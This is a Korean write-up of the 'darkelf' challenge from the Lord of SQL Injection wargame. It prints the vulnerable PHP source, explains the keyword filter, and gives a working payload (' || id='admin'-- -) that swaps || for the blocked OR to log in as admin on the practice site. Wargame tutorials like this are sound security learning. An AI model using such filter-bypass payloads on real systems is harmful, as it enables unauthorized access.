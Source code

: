 # Lord of SQL Injection No.6 - darkelf

## 문제 출제 의도

or, and를 사용하지 않고 원하는 문자열을 SELECT 하도록 SQL을 조작할 수 있는지 확인한다.

## 소스 코드 분석

darkelf 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `(`, `)` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, pw에 대소문자 구분 없이 `or`, `and` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution
    
1. `||`, `&&` 이용

    논리 연산을 막기 위해 `OR`, `AND`를 필터링 한 문제이다.

    그러나 논리 연산은 위 두 연산자 뿐만 아니라 `||`, `&&` 연산자도 존재한다.
    
    `OR`은 `||`로 완전히 대체 가능하고, `AND`는 `&&`로 완전히 대체 가능하다.

    이때, URL에 직접 SQL Injection을 수행하는 경우 `&` 문자는 그대로 삽입하면 작동하지 않으므로 URL Encoding을 거친 `%26` 으로 삽입하여야 한다.

    ```
    http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=' || id='admin'-- -
    ```
    ```sql
    select id from prob_darkelf where id='guest' and pw='' || id='admin'-- -'
    ```

    이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.
